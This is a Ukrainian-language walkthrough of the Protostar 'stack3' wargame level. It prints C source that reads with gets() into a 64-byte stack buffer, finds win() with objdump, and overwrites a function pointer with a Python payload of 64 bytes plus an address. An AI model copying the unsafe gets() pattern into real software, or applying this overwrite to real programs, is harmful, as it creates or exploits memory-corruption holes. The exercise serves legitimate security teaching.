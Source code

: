 # STACK3

Цей рівень розглядає змінні середовища, як їх можна встановити, а також перезаписувати покажчики функцій, що зберігаються в стеку.

Вихідний код для Stack3:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Спочатку нам потрібно з'ясувати, яка адреса функції win знаходиться в пам'яті, на щастя, objdump покаже це досить чітко.

objdump -x stack3 | grep win

![image](https://user-images.githubusercontent.com/47494881/147484203-9ef6796c-8144-4645-8e0d-77d8dce6d99e.png)

Тепер необхідно переписати зміну fp для цього зновштаки нам знадоюиться 64 байти сміття (64 'а'), а потім адрес функції win
```
python -c "print('F' * 64 + '\x24\x84\x04\x08')" | ./stack3
```
Результати:

![image](https://user-images.githubusercontent.com/47494881/147484764-08acca82-e1ed-44f2-90da-4c7b4172f9f7.png)

